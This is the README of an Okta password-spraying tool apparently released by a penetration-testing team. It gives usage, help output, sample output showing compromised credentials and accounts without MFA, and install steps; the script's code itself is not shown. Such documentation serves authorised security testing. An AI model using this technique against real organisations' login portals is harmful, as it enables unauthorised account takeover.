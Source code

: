# Okta-Password-Sprayer


The [ShellIntel team](https://www.shellntel.com/) has frequently found that password spraying the Okta portal of an organization will often result in compromised accounts without MFA set up. This script is a multi-threaded Okta password sprayer. Simply provide the script with a subdomain (ie `xyz.okta.com` or simply `xyz`) and a list of usernames and passwords, and the script will password spray and check for valid users and valid users w/o MFA. 

```
┌─[justin@parrot]─[~/projects/Okta-Password-Sprayer]
└──╼ $python oSpray.py --help
usage: oSpray.py [-h] [--threads THREADS] subdomain userList passList

positional arguments:
  subdomain          The subdomain of okta.com to attempt the spray upon.
  userList           The newline delimited list of users to password spray.
  passList           The newline delimited list of passwords to spray.

optional arguments:
  -h, --help         show this help message and exit
  --threads THREADS  Number of threads. Default: 7
```

Sample output:
```
┌─[justin@parrot]─[~/projects/Okta-Password-Sprayer]
└──╼ $python oSpray.py ExampleSub usernameList passwordList
Valid Credentials! aUser:Summer18
Valid Credentials without MFA! bUser:Summer18
```

### Installation
```
git clone https://github.com/Rhynorater/Okta-Password-Sprayer.git
cd Okta-Password-Sprayer/
pip install -r requirements.txt
python oSpray.py --help
```
